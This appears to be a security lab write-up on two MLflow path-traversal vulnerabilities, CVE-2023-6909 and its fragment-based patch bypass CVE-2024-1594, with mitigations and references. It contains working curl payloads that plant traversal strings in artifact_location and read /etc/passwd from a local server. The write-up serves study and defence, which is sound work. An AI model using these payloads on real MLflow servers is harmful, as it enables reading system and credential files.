








# MLflow Local File Inclusion - Path Traversal and Patch Bypass

**Author:** Teodora Demerdzhieva  
**Topic:** LLM Security - Supply Chain, Vulnerable Dependencies, Local File Inclusion  

---

## Overview

This documents two related vulnerabilities in MLflow: CVE-2023-6909 and CVE-2024-1594. The first allows arbitrary file read through path traversal in the `artifact_location` parameter. The second demonstrates how the patch for the first vulnerability was incomplete: the same attack succeeds using URL fragments instead of query strings.

Together, they illustrate a critical lesson: patching the symptom without understanding the root cause leaves systems vulnerable to bypass attacks.

---

## Target

```
MLflow 2.7.1        : CVE-2023-6909 (Path traversal via query string)
MLflow 2.9.2        : CVE-2024-1594 (Path traversal via URL fragment)
Goal                : Read arbitrary files from the server filesystem
```

---

## 1. CVE-2023-6909 - Local File Inclusion in MLflow 2.7.1

### Vulnerability

MLflow improperly validates URL parameters when creating experiments. A path traversal payload in the `artifact_location` parameter bypasses directory restrictions and allows reading arbitrary files from the server.

### Setup

Install vulnerable MLflow and start the tracking server:

```bash
pip3 install mlflow==2.7.1
mlflow server --host 127.0.0.1 --port 8080
```



### Exploitation

Create a new experiment with a path traversal payload in the `artifact_location` parameter:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"name": "pwn", "artifact_location": "http:///?/../../../../../../../../../"}' \
  'http://127.0.0.1:8080/ajax-api/2.0/mlflow/experiments/create'
```



Response contains the experiment ID:

```json
{
  "experiment_id": "469043977794289677"
} 
```

Create a new run in the experiment:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"experiment_id": "469043977794289677"}' \
  'http://127.0.0.1:8080/api/2.0/mlflow/runs/create'
```



Create a registered model:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"name": "pwn_model"}' \
  'http://127.0.0.1:8080/ajax-api/2.0/mlflow/registered-models/create'
```


Create a model version with source pointing to the filesystem root:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"name": "pwn_model", "run_id": "77c4bccd8c364366954bf08e4b9e7531", "source": "file:///"}' \
  'http://127.0.0.1:8080/ajax-api/2.0/mlflow/model-versions/create'
```


### Reading Arbitrary Files

Download the `/etc/passwd` file:

```bash
curl 'http://127.0.0.1:8080/model-versions/get-artifact?path=etc/passwd&name=pwn_model&version=1'
```



The framework traverses the path and returns file contents without validating that the path stays within intended boundaries.

---

## 2. CVE-2024-1594 - Bypass of the MLflow Patch

### Vulnerability

After CVE-2023-6909 was reported, MLflow patched the vulnerability by checking for `..` sequences in URL query strings. However, the patch only validated the query string component of the URL, missing URL fragments (the part after `#`).

The root cause (improper path handling) was not addressed. Only the specific attack vector was blocked.

### Setup

Install the patched MLflow and start the server:

```bash
pip3 install mlflow==2.9.2
mlflow server --host 127.0.0.1 --port 8080
```



### Testing the Original Payload

Attempt the CVE-2023-6909 payload:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"name": "pwn2", "artifact_location": "http:///?/../../../../../../../../../"}' \
  'http://127.0.0.1:8080/ajax-api/2.0/mlflow/experiments/create'
```



The request is rejected.

### Bypassing with URL Fragments

Use a URL fragment (after `#`) instead of a query string:

```bash
curl -X POST -H 'Content-Type: application/json' \
  -d '{"name": "pwn2", "artifact_location": "http:///#../../../../../../../../../etc/"}' \
  'http://127.0.0.1:8080/ajax-api/2.0/mlflow/experiments/create'
```



The payload succeeds because the fragment validation is missing.

### Exploiting the Bypass

From this point, the exploitation is identical to CVE-2023-6909. Create a run, register a model, and read arbitrary files through the same file read endpoint.

The only difference is that the path traversal bypasses the patch by using a URL fragment instead of a query string.

---

## 3. Summary of Findings

| Finding | MLflow Version | Severity | Impact |
|---------|---|----------|--------|
| Path traversal in artifact_location (query string) | 2.7.1 | High | Arbitrary file read via `../` sequences |
| Incomplete patch — fragment bypass | 2.9.2 | High | Same vulnerability exploitable using URL fragments instead of query strings |

---

## 4. Mitigations

- **Validate all URL components** - query strings, fragments, and paths should all be validated before use; do not assume security checks in one component protect the others
- **Whitelist expected values** - instead of checking for dangerous sequences like `..`, define what paths are actually allowed and reject everything else
- **Parse URLs correctly** - use language-provided URL parsing functions that separate components properly; manual string manipulation leads to inconsistent validation
- **Understand root causes** - when patching vulnerabilities, address the underlying issue (improper path handling) not just the visible attack vector (the `..` sequence)
- **Keep dependencies updated** - MLflow 2.10.0 fixed this vulnerability; apply updates as soon as they are released
- **Security testing of patches** - when a security patch is released, test whether the vulnerability is fully eliminated or just partially mitigated

---

## References

- [OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [OWASP Top 10 - A01: Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CVE-2023-6909 - MLflow LFI](https://nvd.nist.gov/vuln/detail/CVE-2023-6909)
- [CVE-2024-1594 - MLflow LFI Bypass](https://nvd.nist.gov/vuln/detail/CVE-2024-1594)
